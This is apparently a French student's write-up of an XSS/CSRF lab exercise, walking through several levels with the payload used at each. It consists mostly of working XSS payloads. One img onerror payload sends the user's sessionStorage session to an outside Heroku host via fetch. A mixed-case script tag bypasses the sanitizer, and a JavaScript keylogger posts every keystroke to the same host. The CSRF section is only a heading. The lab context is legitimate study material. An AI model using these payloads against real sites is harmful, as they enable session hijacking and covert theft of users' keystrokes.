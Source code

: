 ### XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

# Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

# Level 2 :
Pour ce niveau,  j’ai repris ma démarche précédente en insérant <img src="alert" onerror="alert('danger')"> dans champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre <script>alert(‘danger’)</script> ne fonctionne pas
On dirait que le navigateur protége le site en effectuant un genre d’escape
L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
La solution que je prefere est <img src="danger" onerror="while(true) { alert(‘danger’); }">
Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : <img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">

# Level 3 :
Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
Pour faire un keylogger en JS qui envoie les données sur heroku : <sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>

# Partie 2 - CSRF
